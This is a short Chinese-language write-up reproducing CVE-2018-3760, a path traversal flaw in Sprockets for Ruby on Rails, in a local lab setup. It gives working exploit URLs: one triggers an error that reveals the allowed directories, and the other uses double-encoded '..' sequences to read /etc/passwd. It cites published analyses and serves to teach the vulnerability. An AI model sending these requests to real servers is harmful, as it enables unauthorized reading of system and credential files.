


## Ruby on Rails 路径穿越漏洞

### 漏洞介绍
> 漏洞编号:**CVE-2018-3760**  
> 漏洞影响版本:Sprockets 3.7.1及之前版本  
> 漏洞提交时间:2018-08-08  


###  漏洞利用
首先利用漏洞报错，查看可用的信息
http://127.0.0.1:3000/assets/file:%2f%2f/etc/passwd




我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如_root_blog_app_assets_config，然后使用%252e%252e_向上一层跳转，最后读取_etc_passwd：

```shell
http://127.0.0.1:3000/assets/file:%2f%2f/root/blog/app/assets/config/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```




Refer

[Ruby on Rails 路径穿越与任意文件读取漏洞(CVE-2018-3760)分析](https://vulners.com/seebug/SSV:97466/)
[Vulhub - Ruby On Rails 路径穿越漏洞（CVE-2018-3760）复现 - 多崎巡礼的博客 - CSDN博客](https://blog.csdn.net/qq_42357070/article/details/83545100)